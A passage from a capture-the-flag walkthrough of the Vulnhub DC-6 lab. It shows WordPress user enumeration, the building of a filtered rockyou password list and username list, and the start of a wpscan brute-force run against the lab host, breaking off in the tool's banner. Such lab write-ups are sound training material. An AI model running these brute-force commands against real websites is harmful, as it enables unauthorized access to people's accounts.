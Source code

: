 ``` bash
[+] Requests Done: 31
[+] Cached Requests: 37
[+] Data Sent: 7.92 KB
[+] Data Received: 301.662 KB
[+] Memory used: 166.797 MB
[+] Elapsed time: 00:00:04

```


There are several users found:
 * Users
	 * admin
	 * graham
	 * mark
	 * sarah
	 * jens
 * Themes
	 * twentyseventeen version 3.1

Let's visit the website, to see if we can found any information what we could use in our attack.

![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327192137.png){: width="700" height="400" }

So probably it has to do something with Plugins. Let's enumerate more information on the website.
![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327192316.png){: width="700" height="400" }

It looks like `Jens Dagmeister` is the developer for the plugin.  Now enumerate more.

There was a hint on Vulnhub, so let's use it.
```
## Clue

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```
Now create a new wordlist.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```
Now create a user list, so we can brute force passwordxs against the known users with wpscan.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ nano users.txt

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ cat users.txt                                                  
admin
graham
mark
sarah
jens

```
Now let's start wpscan to brute force those credentials.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ wpscan --url http://wordy --passwords passwords.txt --usernames users.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
```